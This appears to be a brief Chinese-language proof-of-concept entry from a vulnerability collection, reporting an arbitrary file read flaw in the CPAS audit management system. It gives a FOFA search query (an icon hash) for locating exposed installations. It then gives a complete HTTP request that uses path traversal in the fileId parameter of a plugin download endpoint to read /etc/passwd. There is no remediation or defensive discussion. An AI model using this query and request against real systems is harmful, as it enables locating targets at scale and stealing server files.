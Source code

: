 # CPAS审计管理系统存在任意文件读取漏洞

CPAS审计管理系统存在任意文件读取漏洞

## fofa

```javascript
icon_hash="-58141038"
```

## poc

```javascript
GET /cpasm4/plugInManController/downPlugs?fileId=../../../../etc/passwd&fileName= HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

